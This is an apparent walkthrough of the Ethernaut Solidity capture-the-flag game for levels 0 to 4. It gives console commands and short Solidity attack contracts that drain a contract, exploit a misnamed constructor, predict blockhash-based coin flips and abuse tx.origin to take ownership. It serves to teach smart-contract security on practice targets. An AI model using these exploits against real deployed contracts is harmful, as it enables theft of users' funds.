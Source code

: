 This is a new walkthrough of the Ethernaut Solidity CTF.

I did it previously but I want to go through it again and write a detailled walkthrough.

# Levels
## Lvl-0 Hello Ethernaut
Follow the instructions in the console until you get to:
`await contract.method7123949()
'If you know the password, submit it to authenticate().'`.
Remember that you can access to the ABI object with 'contract.abi'.
You will see the 'password' method that you can call:
`'await contract.password()
'ethernaut0'`
Then simply call contract.authenticate() with the param 'ethernaut0', pay for the transaction with metamask,
wait for tx to be mined, click the 'submit instance' button and voila!

## Lvl-1 Fallback
To pass this level, you first need to send some eth to it through the contribute() function, then some more eth through the fallback function.
First check that your contribution is 0, with 'await contract.checkContributions()' that returns 0.
Then call 'await contract.contribute({value: 1})' and pay for the tx.
Wait for the tx to be mined then call 'await contract.checkContributions()' again. It should now be 1.
Now you can send eth through the fallback function with
'await web3.eth.sendTransaction({to: instance, from: player, value: 1})'.
Waited for the tx to be mined and check the owner with 'await contract.owner()'
It should be your address.
You can now call the withdraw function and drain the contract of it's balance.
Call 'await web3.eth.getBalance(instance)' to check that balance is 0.
Click 'submit instance'.

## Lvl-2 Fallout
For this level, you just have to call the 'Fallout()' function with 1 wei and the contract will be yours.
The code comments say that Fallout() is the constructor but that's wrong. Since Solidity v0.4.23, constructors are now specified using the constructor keyword, and since the code is Solidity 0.6, the function Fallout() is not called during deployement and no owner is assigned to the contract.

## Lvl-3 CoinFlip
In order to beat this level, you need to write a smart contract in remix that does the same calcul then the targeted contract and send the guess to the target.
Here is the code:

```
pragma solidity 0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/docs-v3.x/contracts/math/SafeMath.sol';

interface CoinFlip {
    function flip(bool) external;
}

contract Flipper {

    using SafeMath for uint256;

    CoinFlip target = CoinFlip(0xe364E0Cd32846CfbeBfBe21E84611e8467F0E1A4);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```
Then just call the 'attack()' function 10 times (wait some time between each calls to be sure you are not calling the function twice within one block).

## Lvl-4 Telephone
Simply make a contract that calls 'changeOwner()' while passing the msg.sender of your address as the arguments.
```
pragma solidity 0.6.0;
contract Caller {
    Telephone telephone = Telephone(YOUR_INSTANCE_ADD);

    function call() public {
        telephone.changeOwner(msg.sender);
    }
}
```
The tx.origin will be your metamask address, the msg.sender will be your Caller contract, and therefore you will pass the check on the first line of 'changeOwner()'.

